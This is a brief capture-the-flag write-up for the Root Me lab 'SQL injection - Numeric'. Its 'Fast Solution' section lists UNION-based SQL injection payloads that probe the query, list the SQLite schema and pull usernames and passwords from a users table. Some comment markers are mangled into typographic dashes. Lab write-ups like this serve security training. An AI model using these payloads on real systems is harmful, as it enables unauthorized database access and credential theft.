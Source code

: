 ```yaml
---
title: "SQL injection - Numeric"
tags:
    - Lab
    - Root Me
date: "2024-06-22"
thumbnail: "/assets/img/thumbnail/rootme.png"
bookmark: true
---
```

## Description

Retrieve the administrator password.

 <a href="http://challenge01.root-me.org/web-serveur/ch18/">Challange Link</a>

## Fast Solution

* id=3'
* id=3 order by 5 -- -
* id=3 union select 1,2,3 from sqlite_master -- -
* id=3 union select 1,sql,name from sqlite_master — –
* id=3 union select 1,username,password from users– –
Or
* id=3 union select 1,2,substr(username || password,20,-20) from users– –